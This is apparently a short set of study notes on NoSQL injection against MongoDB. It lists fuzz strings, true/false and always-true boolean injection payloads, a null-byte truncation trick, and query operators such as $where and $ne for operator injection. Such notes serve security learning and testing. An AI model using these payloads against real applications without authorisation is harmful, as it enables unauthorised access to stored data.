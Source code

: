 A famouse database. It is different from traditional databases because it uses different query languages. 

Because of the variety of query that's why we can abuse many query syntax as there are many diffrent methods we can try.

**How do we test NoSQL injection?**

the concept is as the same as how we try to exploit sql injection

try:

```
'"`{
;$Foo}
$Foo \xYZ
```

in JSON query try:

```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

**NoSQL statement check**

False statement

```
Gifts' && 0 && 'x
```

True statement

```
Gifts' && 1 && 'x
```

Always true

```
Gifts'||1||'
```

We can also try to add null value. This works like a comment.

```
'%00
```

The result of null value is whatever statement after null value won't be processed. That's how MongoDB intreprets

**NoSQL injection with Operator Injection**


| Operator  | Meaning |
| ------------- | ------------- |
| $where  | Matches documents that satisfy a JavaScript expression. |
| $ne  |Matches all values that are not equal to a specified value. |
| $in | Matches all of the values specified in an array. |
| $regex | Selects documents where values match a specified regular expression. |
